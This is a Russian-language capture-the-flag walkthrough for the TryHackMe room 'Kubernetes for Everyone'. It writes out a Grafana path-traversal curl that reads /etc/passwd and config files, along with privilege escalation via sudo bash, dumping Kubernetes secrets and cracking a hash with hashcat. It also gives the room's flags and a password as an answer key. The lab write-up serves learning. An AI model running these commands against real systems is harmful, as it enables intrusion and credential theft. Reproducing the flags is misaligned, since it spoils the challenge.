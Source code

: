 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Kubernetes for Everyone](https://tryhackme.com/r/room/kubernetesforyouly) 

Всего 4 задания:
## Задание 1
Чтобы получить доступ к кластеру, вам нужно знать местоположение кластера K8s и иметь учетные данные для доступа к 
нему. Скомпрометируйте кластер и удачи.

Используйте Nmap, чтобы найти открытые порты и закрепиться, эксплуатируя уязвимую службу. Если вы новичок в Nmap, 
загляните в комнату Nmap.

### Ответьте на вопросы ниже
Найти имя пользователя?
```commandline
sudo nmap -sV -sC -T4 <IP>
gobuster dir -u http://<IP>:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null
curl http://<IP>:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is
curl http://<IP>:3000/public/plugins/alertlist/../../../../../../../../../../etc/grafana/grafana.ini --path-as-is > test.txt
echo "OZQWO4TBNZ2A====" | base32 -d
```
```commandline
vagrant
```
Нашли пароль?

```commandline
hereiamatctf907
```

## Задание 2
Если хочешь сохранить секрет, ты должен скрыть его и от себя . Найди секрет!

### Ответьте на вопросы ниже
Какой секрет вы нашли?
```commandline
ssh vagrant@<IP>
# hereiamatctf907
sudo -l
sudo bash
ps aux
k0s kubectl get secret
k0s kubectl edit secret k8s.authentication
echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d
```
```commandline
THM{yes_there_$s_no_$ecret}
```

## Задание 3
Модули  — это наименьшие развертываемые вычислительные единицы, которые можно создавать и управлять в Kubernetes . 

Pod  также  разделяет хранилище. Перечислите место хранения, совместно используемое Pod, и найдите флаг!

### Ответьте на вопросы ниже
Что такое флаг громкости?
```commandline
k0s kubectl get pods -A
cd /var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes
ls
git log --pretty=oneline
git show 4b2c2d74b31d922252368c112a3907c5c1cf1ba3
```
```commandline
THM{this_joke_is_cold_joke}
```

## Задание 4
Вы вошли в шорт-лист и вас ждут собеседования в компании FANG! Найдите секрет, который остался позади.

Надеюсь, вы многому научились, пройдя через испытания. Большое спасибо за то, что сделали мою первую комнату, и я 
хочу лично поблагодарить kiransau. Не стесняйтесь оставлять отзывы через  Twitter.

### Ответьте на вопросы ниже
В чем секрет интервью FANG?
```commandline
k0s kubectl get job -n internship
k0s kubectl get job -n internship -o json
vim hash.txt
hashcat -m 100 -w 3 -D 1,2 hash.txt /usr/share/wordlists/rockyou.txt
```
```commandline
chidori
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)